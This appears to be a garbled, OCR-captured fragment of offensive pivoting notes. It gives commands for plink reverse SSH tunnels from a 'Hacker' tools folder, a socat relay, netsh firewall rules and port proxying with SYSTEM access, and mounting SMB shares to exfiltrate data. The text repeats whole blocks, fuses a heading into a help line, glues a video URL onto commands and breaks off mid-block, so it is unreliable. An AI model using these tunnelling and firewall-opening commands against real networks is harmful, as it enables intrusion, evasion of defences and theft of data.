 ```powershell
#   -l user   connect with specified username# Port Redirection And Tunneling
#             Forward local port to remote address
#   -R [listen-IP:]listen-port:host:port
#             Forward remote port to local address
#   -X -x     enable / disable X11 forwarding
#   -A -a     enable / disable agent forwarding
#   -t -T     enable / disable pty allocation
  
C:\Users\Hacker\Tools> plink.exe -ssh -l $attacker_user -pw $attacker_passwordd -R $remote_ip:$remote_port:127.0.0.1:$target_port $remote_ip # remote being connecting back to a user on that $remote_ip

# Pipe it through to prevent interaction from windows host, so cmds from attacker host proxy through
cmd.exe /c echo y | plink.exe <options>https://www.youtube.com/watch?v=d6qtr-rYxXw
```

## Socat 

See [[Socat-Cheatsheet]] for more uses, although robust and can encrypt traffic the disadvantages of using socat is that we need to transfer it to the pivot host.
```bash
# A = Attacker, B = Pivot host, C = Server

# ssh tunnel with socat
socat TCP4-LISTEN:$port,reuseaddr,fork TCP4:domain.com:ssh
# Port Redirection And Tunneling
#             Forward local port to remote address
#   -R [listen-IP:]listen-port:host:port
#             Forward remote port to local address
#   -X -x     enable / disable X11 forwarding
#   -A -a     enable / disable agent forwarding
#   -t -T     enable / disable pty allocation
  
C:\Users\Hacker\Tools> plink.exe -ssh -l $attacker_user -pw $attacker_passwordd -R $remote_ip:$remote_port:127.0.0.1:$target_port $remote_ip # remote being connecting back to a user on that $remote_ip

# Pipe it through to prevent interaction from windows host, so cmds from attacker host proxy through
cmd.exe /c echo y | plink.exe <options>https://www.youtube.com/watch?v=d6qtr-rYxXw
```
​
## With SYSTEM level Windows Access..

With SYSTEM level Windows access we can use `netsh`. First `IP Helper service` is running and it must have IPv6 support enabled for interface to work.
```powershell
# Configure firewall to allow traffic
netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=$local_ip localport=$local_port action=allow
# Connect back
netsh interface portproxy add v4tov4 listenport=$port listenaddress=$IP connectport=$local_port connectaddress=$connect_address
```
You can then use sbmclient, see [[SMB-Recon-Cheatsheet]], and mount to the share to exfilitrate data.
```bash
# Set correct protocol in smb.conf
sudo /etc/init.d/smbd restart
# List shares, port forward generates an timeout error
smbclient -L $target_address --port=$firewall_happy_port_from_above --user=Administrator
# Mount into shares to interact
```
